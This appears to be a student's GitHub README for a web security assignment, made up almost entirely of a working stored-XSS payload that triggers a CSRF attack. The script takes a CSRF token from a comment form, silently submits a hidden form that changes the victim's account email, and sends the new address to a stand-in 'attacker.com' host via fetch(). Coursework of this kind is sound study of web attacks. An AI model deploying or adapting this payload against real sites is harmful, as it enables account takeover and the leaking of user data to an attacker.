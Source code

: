 # WebSecurity-CSRF
Web Security Assignment on CSRF


# Script that will exploit the stored XSS vulnerability and trigger a CSRF

<form id="fake_form" action="http://www.vulnerable.com:5000/profile/update-email" method="POST"> 
  <input id="my_mail" name="email" value=""> 
  <input id="my_csrf" name="csrf" value=""> 
</form> 

<script> 
 
  function rndMail() {
    return "test@" +  Math.floor(Math.random() * 100) + ".com"; 
 } 
 
  window.onload = function() { 

    let stolen_csrf = [...document.getElementsByTagName("form")].filter((f) => {
    return f.action.includes("/comment");
  })[0].children[0].value;
 
    let new_mail = rndMail()
    document.getElementById("my_mail").value = new_mail
    document.getElementById("my_csrf").value = stolen_csrf;

    //attackers logging
    let url = "http://www.attacker.com:5000/leak?newmail=" + new_mail; 
    fetch(url, {method: "GET", mode: "no-cors"});


    let fakeForm = document.getElementById("fake_form")
    fakeForm.onsubmit = (event) => event.preventDefault();
    fakeForm.requestSubmit(); 
}
</script>
